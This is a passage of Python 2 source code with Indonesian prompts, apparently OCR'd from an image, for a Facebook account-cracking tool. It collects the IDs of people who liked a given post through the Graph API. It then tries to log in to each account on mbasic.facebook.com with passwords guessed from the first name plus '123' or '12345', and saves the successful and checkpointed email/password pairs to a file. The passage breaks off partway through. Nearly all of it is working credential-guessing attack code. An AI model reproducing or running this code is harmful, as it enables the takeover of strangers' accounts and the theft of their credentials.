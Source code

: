### CRACK LIKE ###
def crack_like():
	global toket
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print '\033[0;97m   ! Token Invalid'
		os.system('rm -rf login.txt')
		time.sleep(1)
		Exit()
	os.system('clear')
	print logo
	print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
	idt = raw_input("\033[0;97m   • \033[0;97mID Postingan Public/Teman \033[0;97m:\033[0;97m ")
	try:
		r = requests.get("https://graph.facebook.com/"+idt+"/likes?limit=9999999&access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	except KeyError:
		print "\033[0;97m   ! ID postingan salah"
		raw_input("\n\033[1;97m   < \033[0;97mKembali \033[0;97m>")
		menu()
	except requests.exceptions.SSLError:
		print '   ! Koneksi Tidak Ada'
		exit()
		
	print '\033[0;97m   • \033[0;97m   Jumlah ID\033[0;97m :\033[0;97m '+str(len(id))
	print ("\033[0;91m╚═══════════════════════════════════════════════════════════════╝")
		
### MAIN LIKE ###
	def main(arg):
		global CP,oks
		em = arg
		try:
			os.mkdir('done')
		except OSError:
			pass
		try:
			an = requests.get('https://graph.facebook.com/'+em+'/?access_token='+toket)
			v = json.loads(an.text)
			pc = v['first_name'].lower()+'123'
			rex = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : em, "pass" : pc, "login" : "submit"}, headers = { "user-agent" : "Mozilla/5.0 (Linux; U; Android 2.2) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1"})
			xo = rex.content
			if 'mbasic_logout_button' in xo or 'save-device' in xo:
				print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+pc
				oke = open('done/like.txt', 'a')
				oke.write('\n   [OK] '+em+' • '+pc)
				oke.close()
				oks.append(em)
			else :
				if 'checkpoint' in xo:
					print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+pc
					cek = open('done/like.txt', 'a')
					cek.write('\n   [CP] '+em+' • '+pc)
					cek.close()
					CP.append(em)
				else:
					pc2 = v['first_name'].lower()+'12345'